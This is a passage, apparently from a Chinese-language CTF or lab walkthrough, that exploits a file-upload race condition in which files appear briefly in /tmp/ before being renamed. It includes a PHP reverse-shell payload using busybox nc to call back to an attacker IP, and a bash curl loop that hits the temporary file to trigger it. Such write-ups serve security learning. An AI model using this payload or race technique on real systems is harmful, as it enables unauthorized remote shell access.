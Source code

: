 上传后发现文件出现在 `/upload/` 目录下，但文件名被修改为 `shell.php.dsz`，无法直接执行。同时观察到 `/tmp/` 目录没有文件常驻。

通过抓包分析上传过程，确认了POST请求的结构，但没有发现明显的绕过线索。

进一步测试发现，上传的文件会以**原始文件名**短暂地出现在 `/tmp/` 目录下（大约1秒），然后才被移动到 `/upload/` 并重命名。这存在一个**条件竞争 (Race Condition)** 漏洞。

## 3. 漏洞利用 (条件竞争获取初始访问)

### 3.1 制定策略

利用文件在 `/tmp/` 目录短暂存在的特性，上传一个能反弹Shell的PHP文件，并在它被处理前通过HTTP请求访问它，触发反弹Shell。

### 3.2 准备工具

1. **反弹Shell Payload (`shell.php`):**
   使用一个简单的 `exec` 调用 `busybox nc` 来反弹shell（经过测试发现这个比较可靠）。

   ```php
   <?php
   exec("busybox nc 192.168.205.128 8888 -e bash");
   ?>
   ```

2. **条件竞争访问脚本 (`a.sh`):**
   编写一个Bash脚本，持续请求目标临时文件，直到成功（HTTP状态码 200）。

   ```bash
   #!/bin/bash
   url="http://192.168.205.187/tmp/shell.php"
   max_attempts=1000 # 可以根据需要调整尝试次数
   success=false
   
   echo "开始尝试访问 $url ..."
   
   # 并行执行上传和访问尝试以增加成功率
   # 在另一个终端执行上传操作
   
   for ((i=1; i<=max_attempts; i++)); do
       # 发送请求并捕获状态码
       status_code=$(curl -s -o /dev/null -w "%{http_code}" "$url")
   
       echo "尝试 $i: 状态码 = $status_code"
   
       # 检测到200时标记成功并退出循环
       if [[ "$status_code" -eq 200 ]]; then
           echo "成功访问! $url 返回 200 OK."
           success=true
           break
       fi
   
       # 短暂暂停避免过于频繁的请求 (可选)
       sleep 0.05 # 缩短间隔增加命中机会
   done
   
   if [[ "$success" == true ]]; then
       echo "已触发Payload，请检查监听器。"
   else
       echo "在 $max_attempts 次尝试后未能成功访问。"
   fi
   ```
